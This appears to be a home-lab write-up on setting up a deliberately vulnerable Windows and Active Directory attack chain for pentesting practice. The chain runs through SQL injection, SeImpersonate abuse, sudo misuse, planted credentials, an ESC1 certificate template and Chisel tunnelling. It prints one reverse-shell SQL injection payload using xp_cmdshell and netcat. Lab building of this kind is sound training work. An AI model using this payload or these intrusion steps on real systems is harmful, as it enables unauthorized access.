Table of Contents
- Introduction
- Attack Chain Summary
- Configuration
- Configuring the Website
- Configuring a Privilege Escalation Vector on PC02
- Creating a Lateral Movement Path from PC02 to PC03
- Configuring a Privilege Escalation Vector on PC03
- Creating a Lateral Movement Path from PC02 to PC01
- Placing Domain Credentials on PC01
- Configuring a Vulnerable AD CS Template
- Ensuring Chisel Tunneling is Functional
- Conclusion
Introduction
In this document, we outline the configuration of all vulnerabilities required in attack chain #2. A complete pentesting report covering the full exploitation of the attack chain is available here.
This document assumes the reader has basic knowledge of networking and Windows/Active Directory concepts.
We will be adding onto the base configuration detailed in the document “Installing and Configuring my Home Lab”. The settings and configuration of attack chain #1 will not be modified.
Attack Chain Summary
This will be an external assessment, meaning that our attack machine will be located outside of the internal network.
Below is a layout of the homelab network.
The attack chain we will be configuring is as follows:
Initial access will be obtained through an SQLi vulnerability in a publicly facing web server hosted on PC02. This SQLi vulnerability will allow us to obtain RCE by leveraging the xp_cmdshell stored procedure in Microsoft SQL.
After obtaining a reverse shell on PC02 using the method previously described, we escalate our privileges to SYSTEM by abusing the SeImpersonate privilege assigned to the NT SERVICE\MSSQL$SQLEXPRESS user. This will be done with the SigmaPotato token abuse tool.
After obtaining SYSTEM level access to PC02, we find an SSH private key that allows us to connect as a low-level user to PC03. We then escalate our privileges by abusing insecure sudo permissions on the "find" binary assigned to the user. PC03 does not allow for any further lateral movement in this attack chain.
We find domain credentials in a Windows unattended installation file back on PC02. These credentials can be used to obtain a WinRM session to PC01.
We find additional domain credentials on PC01 in a PowerShell script file without the need for privilege escalation. The account associated with the credentials can enroll in an insecure certificate template that allows us to specify any SPN that we want while enrolling (known as the ESC1 vulnerability). This is leveraged to request a TGT as the domain administrator and obtain unrestricted access to the network.
Configuration
Configuring the Website
The externally facing website configuration has been documented here.
Configuring a Privilege Escalation Vector on PC02
We will start by making sure that privilege escalation can be obtained on PC02 from a reverse shell in the SQL service context.
We first disable Windows Defender on the machine. This is done so that the Windows netcat binary is not deleted from the machine by Defender after we upload it. There are methods to obfuscate the binary's signature and prevent deletion, but that is out of scope for this assessment.
We place the Windows netcat binary in a temporary folder on the C: drive on PC02.
We then submit our reverse shell payload to the website from our Kali machine. The payload used is '; EXEC xp_cmdshell 'C:\temp\nc64.exe 10.0.2.3 1234 -e cmd.exe'; --. This command is a simplified version of the full SQLi attack we will be performing during the assessment.
We confirm that it works.
We transfer the SigmaPotato binary from our Kali machine to PC02 using VirtualBox shared folders. We then check if we can use it to execute commands as SYSTEM from our netcat reverse shell.
It functions as intended. This method will be used to obtain an interactive administrator shell on PC02 during our assessment.
Creating a Lateral Movement Path from PC02 to PC03
We start by creating a low-privilege user on PC03.
We then generate an SSH key pair for the user.
We enter the public key in the authorized_keys file in user richard's home directory.
We place the key in a folder called "SecretFolder" on PC02.
We ensure that the contents of the folder are only accessible to administrators. We do this by removing all inheritance and assigning permissions only to the local administrator.
We select the local administrators group on PC02.
We set the permissions.
We also create an extra user in our Active Directory domain called Richard Smith. During our assessment, this user's first name will allow us to guess the username associated with the SSH key.

We then reboot our Kali machine after setting its network adapter to "internal network". This is done for testing purposes, as during the assessment the Kali machine will not be present on the internal network. We transfer user richard's private key to the Kali machine and attempt to connect to PC03 via SSH.
The connection is successful.
Configuring a Privilege Escalation Vector on PC03
We use visudo to add the following line to the sudoers file: "richard ALL=(ALL) NOPASSWD: /usr/bin/find"
This will allow user richard to run the find binary with sudo. Using GTFOBins, this will allow us to escalate our privileges to root. We confirm that the privilege assignment worked with sudo -l.
Creating a Lateral Movement Path from PC02 to PC01
We paste the contents of the file found at this link https://gist.github.com/mdowst/e81cc0608a0c554d8c3381ebc7b6e15e to C:\Windows\Panther\Unattend.xml on PC02.
We enter the credentials for domain user Tristan Blake in the "Autologon" section of the XML file.
We add user Tristan Blake to the Remote Management Users group on PC01. During the assessment, this will allow us to establish a remote session on PC01 once we obtain the credentials from the unattend file on PC02.

We make sure the user was added successfully to the group:
Placing Domain Credentials on PC01
We create the following text file in user Tristan Blake's Documents directory.
This will allow us to obtain the credentials for user "lhartman" once we gain low-level access on PC01. Although finding cleartext credentials in this location is not very realistic, it is meant to simulate credential discovery once we obtain a remote session on PC01.
Configuring a Vulnerable AD CS Template
We start by installing the Active Directory Certificate Services Role to machine DC01.
We then open the AD CS setup and leave all settings to their default values.
We should now be able to create a custom AD CS template. We open the Certification Authority Console and duplicate the "User" template.
We leave the Compatibility tab at its default settings.
In the General tab, we name our custom template "user_enroll".
In the Subject Name tab, we select "Supply in the request". This creates a vulnerability where a user can supply any UPN while requesting the certificate, allowing for domain user impersonation.
In the "Security" tab, we first ensure that domain users do not have enrollment rights. This is done by deleting the group from the list.
We then allow user "lhartman" to enroll.
We click Apply to save all of our settings. To make sure that certificate-based authentication is functional on the domain, we installed the CA's root certificate and CRL into the domain controller's trust store. We used the answer in this link as a guide to do so: https://github.com/ly4k/Certipy/issues/205.
  We test the enrollment and usage with Certipy from our Kali machine. Note: We set the network adapter for our Kali machine to "internal network" for testing purposes.
  The attack chain is now fully configured for the assessment.
Ensuring Chisel Tunneling is Functional
We will now attempt to connect to PC03 on the internal network with SSH while our Kali machine is located on the NAT network. To do this, we will use a reverse tunnel using PC02 as our jump host. During the assessment, this step will be performed after gaining access to PC02.
We start by transferring the Windows Chisel binary onto PC02.
We then start Chisel in server mode from our Kali machine.
We then attempt to connect back to our Chisel server using the reverse shell on PC02.
The connection attempt is successful. We attempt to connect to PC03 with SSH from our Kali machine using proxychains.
It works. This means that during our assessment, we will be able to access the internal network once RCE on PC02 is obtained.
Conclusion
Everything is now configured properly for us to perform our assessment. As we did after the configuration of Attack Chain #1, we save all the current machine states in VirtualBox as snapshots.